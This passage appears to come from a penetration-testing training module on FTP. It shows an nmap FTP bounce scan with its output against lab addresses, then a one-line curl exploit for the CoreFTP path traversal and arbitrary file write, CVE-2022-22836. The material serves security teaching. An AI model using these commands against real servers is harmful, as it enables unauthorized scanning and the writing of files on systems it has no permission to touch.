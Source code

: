 ```shell-session
gdxqpardo@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured in modern-day FTP servers, the server can become vulnerable to an FTP Bounce attack.

When you spawn your target, please wait up to 60 more seconds after seeing the IP address to ensure the corresponding service is launched correctly.


## Latest FTP Vulnerabilities
In this case, we will discuss the `CoreFTP before build 727` vulnerability assigned [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability. This vulnerability allows us to write files outside the directory to which the service has access.

---

## The Concept of the Attack

This FTP service uses an HTTP `POST` request to upload files. However, the CoreFTP service allows an HTTP `PUT` request, which we can use to write content to files. Let's have a look at the attack based on our concept. The [exploit](https://www.exploit-db.com/exploits/50652) for this attack is relatively straightforward, based on a single `cURL` command.

#### CoreFTP Exploitation

Latest FTP Vulnerabilities

```shell-session
gdxqpardo@htb[/htb]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system.
